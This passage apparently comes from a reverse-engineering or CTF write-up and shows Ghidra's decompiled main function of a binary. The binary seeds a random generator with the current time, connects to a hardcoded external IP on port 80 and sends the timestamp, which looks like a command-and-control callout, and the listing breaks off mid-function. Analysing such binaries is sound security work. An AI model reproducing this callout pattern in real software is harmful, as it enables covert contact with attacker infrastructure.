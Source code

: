 Here's `Ghidra`'s decompiled code for `main`:

```
undefined8 main(void)

{
  byte bVar1;
  int iVar2;
  ssize_t sVar3;
  long lVar4;
  long lVar5;
  long alStack240 [4];
  undefined8 local_d0;
  char local_c2 [10];
  sa_family_t local_b8;
  uint16_t local_b6;
  in_addr_t local_b4;
  FILE *local_a0;
  FILE *local_98;
  byte local_89;
  long *local_88;
  long local_80;
  long *local_78;
  long local_70;
  uint local_64;
  FILE *local_60;
  int local_54;
  time_t local_50;
  int local_44;
  int local_40;
  int local_3c;

  alStack240[0] = 0x101279;
  local_50 = time((time_t *)0x0);
  alStack240[0] = 0x101288;
  srand((uint)local_50);
  alStack240[0] = 0x10129c;
  local_54 = socket(2,1,0);
  if (local_54 == -1) {
    alStack240[0] = 0x1012b1;
    puts("could not create socket");
  }
  else {
    alStack240[0] = 0x1012c2;
    puts("created socket");
    alStack240[0] = 0x1012ce;
    local_b4 = inet_addr("108.61.127.136");
    local_b8 = 2;
    alStack240[0] = 0x1012e7;
    local_b6 = htons(0x50);
    alStack240[0] = 0x101307;
    iVar2 = connect(local_54,(sockaddr *)&local_b8,0x10);
    if (iVar2 < 0) {
      alStack240[0] = 0x101317;
      puts("connect error");
    }
    else {
      alStack240[0] = 0x101325;
      puts("connected");
      alStack240[0] = 0x101344;
      sprintf(local_c2,"%d",local_50);
      alStack240[0] = 0x10135f;
      sVar3 = send(local_54,local_c2,10,0);
      if (sVar3 < 0) {
```